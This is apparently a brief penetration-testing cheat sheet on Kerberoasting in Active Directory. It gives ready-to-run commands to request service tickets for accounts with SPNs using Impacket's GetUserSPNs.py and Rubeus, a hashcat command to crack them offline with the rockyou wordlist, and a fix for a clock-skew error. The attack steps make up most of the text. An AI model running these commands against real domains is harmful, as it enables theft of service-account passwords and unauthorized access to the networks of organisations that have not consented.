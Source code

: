 # Kerberoast

***Most popular Kerberos attack***
Kerberoasting allows a user to request a service ticket for any service with a registered SPN then use that ticket to crack the service password  
This can be abused because TGS are crypted with the user's hash.  

Requirements : Credentials 


# Request for kerberoastable users
## Using Impacket
```bash
# From the local machine
GetUserSPNs.py DOMAIN/"username":"password" -dc-ip <IP> -request
```

## Using Rubeus
```cmd
:: Directly onto the target shell
Rubeus.exe kerberoast
```


# Crack the hash
```bash
hashcat -m 13100 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

## Error handling
The error **Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)** means that the DC time is not synchronized with your local time

Mitigation : `rdate -n <IP of DC>`
/!\\ be sure to unset automatic time from your settings